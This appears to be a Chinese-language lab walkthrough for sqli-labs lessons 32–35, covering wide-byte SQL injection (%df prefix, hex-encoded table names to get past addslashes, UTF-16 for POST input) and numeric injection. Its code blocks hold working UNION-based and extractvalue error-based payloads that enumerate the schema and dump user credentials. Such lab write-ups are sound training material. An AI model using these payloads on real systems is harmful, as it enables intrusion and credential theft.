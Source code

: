 # Less-32
这道题的考点是宽字节注入。关于宽字节注入，可以看我的另一篇博客[网址](http://www.v0n.top/2019/08/14/%E5%AE%BD%E5%AD%97%E8%8A%82%E6%B3%A8%E5%85%A5%E5%AD%A6%E4%B9%A0/)  
```
127.0.0.1/sqli-labs-master/Less-32/?id=-1%df' union select 1,database(),3--+
127.0.0.1/sqli-labs-master/Less-32/?id=-1%df' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3--+
127.0.0.1/sqli-labs-master/Less-32/?id=-1%df' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x7573657273),3--+
127.0.0.1/sqli-labs-master/Less-32/?id=-1%df' union select 1,(select group_concat(username,0x3a,password,0x3c2f62723e) from security.users),3--+
```
注意:这里爆库不能直接使用:
```
127.0.0.1/sqli-labs-master/Less-32/?id=-1%df' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),3--+
```
这样'users'的'会被转义，要用16进制编码绕过。

# Less-33
这里只是调用了php自带的addslashes($string)，注入方法和Less-32完全一致，不在赘述。

# Less-34
这题是POST类型的宽字节注入。其实不太理解这道题的思路，看了网上很多解法都是大概说将'去进行UTF-16编码来绕过。  
如果是get方式的话可以考虑使用%df进行吃掉%5c
如果是post方式的话因为不能进行urlencode所以可以考虑使用utf-16编码以后吃掉%5c。 
```
username:�' and extractvalue(1,concat(1,database()))#
username:�' and extractvalue(1,concat(1,(select (table_name) from information_schema.tables where table_schema=database() limit 0,1)))#
username:�' and extractvalue(1,concat(1,(select (column_name) from information_schema.columns where table_name=0x7573657273 limit 0,1)))#
username:�' and extractvalue(1,concat(1,(select concat(username,0x3a,password) from security.users limit 0,1)))#
```
如果有清楚这种POST型注入的师傅，具体为什么要用UTF-16绕过请告诉我呀。  

# Less-35
这道题是数值型注入,不需要'闭合，自然也就逃过了addslashes()的限制。
```
127.0.0.1/sqli-labs-master/Less-35/?id=-1 union select 1,database(),3--+
127.0.0.1/sqli-labs-master/Less-35/?id=-1 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3--+
127.0.0.1/sqli-labs-master/Less-35/?id=-1 union select 1,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x7573657273),3--+
127.0.0.1/sqli-labs-master/Less-35/?id=-1 union select 1,(select group_concat(username,0x3a,password,0x3c2f62723e) from security.users),3--+
```

